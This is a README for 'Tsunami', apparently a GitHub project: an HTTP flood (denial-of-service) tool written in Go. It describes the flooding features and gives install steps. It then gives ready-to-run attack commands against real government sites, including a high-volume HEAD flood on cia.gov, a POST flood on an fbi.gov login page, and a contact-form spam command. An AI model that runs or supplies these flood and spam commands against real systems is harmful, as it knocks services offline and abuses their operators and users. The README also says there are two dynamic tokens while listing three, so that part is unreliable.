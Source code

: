 # Tsunami | Project Created By ammario but maintained by me
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__
- Realistic User Agent randomization
- Dynamic payloads
- Custom headers

## Table of Contents
1. [Basic Usage](#basic-usage)
2. [Help](#help)
3. [Quick Install](#quick-install)
4. [Examples](#examples)
   - [Low Volume POST Flood Lasting Forever](#low-volume-post-flood-lasting-forever)
   - [High Volume HEAD Flood Lasting For 10 Minutes](#high-volume-head-flood-lasting-for-10-minutes)
   - [Contact Us Form Spam](#contact-us-form-spam)
5. [Dynamic Tokens](#dynamic-tokens)
6. [Todo](#todo)

__This project is a WIP__

## Basic Usage
```bash
./tsunami http://whitehouse.gov -w 100
```

## Help
```bash
./tsunami --help
```

## Quick Install
```bash
git clone https://github.com/cameronpoe/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Dynamic Tokens
Dynamic tokens allows you to implement elements of randomness in your requests.
Tokens may be placed in your URL, body, and header values.

There are currently 2 tokens:
- {D} - A random digit
- {l} - A random lowercase letter
- {L} - A random uppercase letter

On every request, every token will be replaced.

Example command:
```bash
./tsunami -w 1 http://nsa.gov/{L}{L}{l}{D}
```
The requests will use URLs similar to these:

```
http://nsa.gov/AYz3
http://nsa.gov/BCv6
http://nsa.gov/NFz7
http://nsa.gov/IPa1
```

## Examples
### Low Volume POST Flood Lasting Forever
```bash
./tsunami -w 2 "https://fbi.gov/login" POST "username=Ammar&password=g1thuB123"
```
### High Volume HEAD Flood Lasting For 10 Minutes
```bash
./tsunami -w 100 -s 600 "https://cia.gov/" HEAD
```
### Contact Us Form Spam
```bash
./tsunami -w 1 "https://ammar.io/contact-us" POST "email={l}{l}{l}{l}{l}{l}{l}@gmail.com&message=spamspamspamspam"
```
## Todo
 - ???
